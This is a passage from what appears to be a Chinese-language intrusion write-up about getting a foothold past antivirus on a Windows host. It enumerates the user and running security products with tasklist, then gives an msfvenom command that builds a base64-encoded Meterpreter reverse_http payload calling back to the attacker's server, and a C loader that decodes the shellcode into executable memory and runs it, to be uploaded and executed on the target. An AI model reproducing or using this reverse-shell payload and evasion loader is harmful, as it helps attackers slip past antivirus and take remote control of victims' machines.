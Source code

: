 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPWMJfYHibxY6nv2T5wPqU6Yf7QNf6hpgrkPFrITvTdFTXZ8vPTtLsJJQcyxFHlLhy76xRnETMibcA/640?wx_fmt=png)

当前用户发现为 “.p” 结尾，按国外的命名习惯，一半是组长或者经理级别：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPWMJfYHibxY6nv2T5wPqU6wLSLj7zF2nLlpzarkicA1AMOOZTzLibOVTiaYkURPHlmfaunvdoibqzJ7Q/640?wx_fmt=png)

查看进程有无杀毒，使用 tasklist 然后进行对比：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPWMJfYHibxY6nv2T5wPqU6RWX15DBoACZnt20DgCAXK5egldxsAjxcDE1CicuqMYeiaxAp3gAM1oYg/640?wx_fmt=png)

不得了，竟然有大名鼎鼎的赛门铁克公司的诺顿和飞塔：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPWMJfYHibxY6nv2T5wPqU67zb5Aqfo7Tsp1NUnFNB73nPnHLhDndRbMOrvWwMSGBFKSgEemSVGYw/640?wx_fmt=png)

看来这次棘手了，接下来试试各种免杀手段上线 cs。

**三：Bypass 免杀**
---------------

### **3.1 base64 加密 shellcode 加载**

参考 Tide 安全团队的免杀系列，使用 base64 生成：

```
msfvenom -p  windows/meterpreter/reverse_http --encrypt base64  lhost=1*.1*.7*.3 lport=800  -f c > shell.c
```

然后在 cs 开启监听（*.*.*.* 为你 vps 地址）：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPWMJfYHibxY6nv2T5wPqU66Kv9ib7xLqtZQAbs8GTSQQicfiaPyGVMHSicpiaxyF4Ziaekm6KUPJia8O9yw/640?wx_fmt=png)

注意：这里 msfconsole 唯有 windows/meterpreter/reverse_http 和 windows/meterpreter/reverse_https 是对应 cs 监听器兼容的，区别在于：cs 自生成后门首次请求 stager 连接字符较短，一般为四个字符，如 “/t1ny”,msf payload 的为很长的字符，但上线不影响。

生成 base64 加密 shellcode 后，使用解密加载器：shellcode.c：

```
#include "base64.h"
unsigned char buf[] ="..你的shellcode";
int main(int argc, const char * argv[]) {
char str1[1000] = { 0 };
Base64decode(str1, buf);
char *Memory;
Memory = VirtualAlloc(NULL, sizeof(str1), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(Memory, str1, sizeof(str1));
((void(*)())Memory)();
return 0;
}
```

base64.c 和 base64.h 可在 tide 公众号内容中找到，这里暂不列出。

最后 gcc shellcode.c base64.c -o test.exe 编译，上传：执行即可。

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPWMJfYHibxY6nv2T5wPqU6UWA5h2zNlFkQIz3mVWHc0bFrlftBukuvgTKcbgicAKMWMGsHtumfoUQ/640?wx_fmt=png)
